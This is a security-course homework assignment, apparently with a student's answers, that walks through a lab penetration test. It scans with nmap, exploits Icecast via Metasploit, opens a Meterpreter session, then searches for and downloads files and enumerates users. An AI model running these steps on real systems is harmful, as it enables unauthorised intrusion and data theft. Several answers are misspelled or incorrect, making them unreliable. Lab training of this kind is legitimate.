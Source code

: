 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files whose names contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`.

### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV -v 192.168.0.20
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer:msfconsole
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer:search icecast

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:use icecast
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer:set RHOST=192.168.0.20
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer:run

   - Run the command that performs a search for the `secretfile` textfile on the target.


     > Answer:search -f *.txt
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe.txt*

    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: downlaod c:/Users/IEUser/Documents/Drinks.recipe.txt

8. You can also use Meterpreter's local exploit suggester to find possible exploits.cat

      >Answer: c:/Users/IEUser/Documents/Drinks.recipe.txt

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell
           systeminfo

C. Run the command that displays the target's computer system information:

   > Answer:sysinfo

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
